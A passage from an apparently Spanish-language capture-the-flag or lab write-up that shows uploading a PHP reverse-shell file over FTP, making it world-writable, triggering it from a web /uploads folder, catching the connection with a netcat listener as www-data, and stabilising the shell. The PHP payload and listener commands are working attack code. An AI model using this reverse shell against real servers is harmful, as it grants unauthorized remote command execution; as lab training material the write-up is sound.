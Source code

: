 Metemos la contarseña obtenida anteriormente y estaremos dentro.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

```shell
put shell.php
```

Info:

```
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||18605|)
150 Ok to send data.
100% |*******************************************************************************************************************************************|   114        1.90 MiB/s    00:00 ETA
226 Transfer complete.
114 bytes sent in 00:00 (378.66 KiB/s)
```

Y ahora le pondremos todos los permisos.

```shell
chmod 777 shell.php
```

Una vez hecho esto, si nos vamos al directorio web de `/uploads` veremos el archivo `shell.php` pero antes de darle estaremos a la escucha.

### Reverse Shell

```shell
nc -lvnp <PORT>
```

Estando a la escucha le daremos, una vez clicado, si nos vamos a la escucha tendremos una shell con el usuario `www-data`.

```
connect to [192.168.5.145] from (UNKNOWN) [172.26.0.2] 41088
whoami
www-data
```

Ahora sanitizaremos la shell (TTY).

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
